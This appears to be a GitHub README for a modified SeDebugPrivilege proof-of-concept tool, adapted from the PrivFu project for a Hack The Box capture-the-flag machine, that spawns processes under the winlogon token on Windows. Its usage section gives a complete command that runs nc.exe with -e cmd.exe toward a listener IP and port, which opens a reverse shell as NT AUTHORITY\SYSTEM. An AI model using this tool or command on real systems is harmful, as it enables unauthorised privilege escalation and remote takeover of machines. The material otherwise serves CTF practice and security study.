

# README.md

**# SeDebugPrivilegePoC** 

This project is a modification of the original code from [daem0nc0re's PrivFu repository](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC), specifically the SeDebugPrivilege Proof of Concept (PoC).

- Reference:
For more information on the context and background of this type of privilege escalation, visit the [HackTricks book section on Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#rce).
- Scenario:
In a Capture The Flag (CTF) challenge, specifically the POV HTB, I encountered a scenario where I lacked an interactive shell and could only execute cmd for the winlogon process ID (PID). This limitation prompted a modification to the original script, enabling the inclusion of command arguments.
- Usage:
To use this modified script, the syntax is as follows:
    
    ```java
    .\SeDebugPrivilegePoC.exe "C:\Users\username\Documents\nc.exe 10.10.10.10 9001 -e C:\Windows\system32\cmd.exe"
    ```
    

Executing the above command allows for a reverse shell to be established on the specified listener, running under the NT Authority\system context.




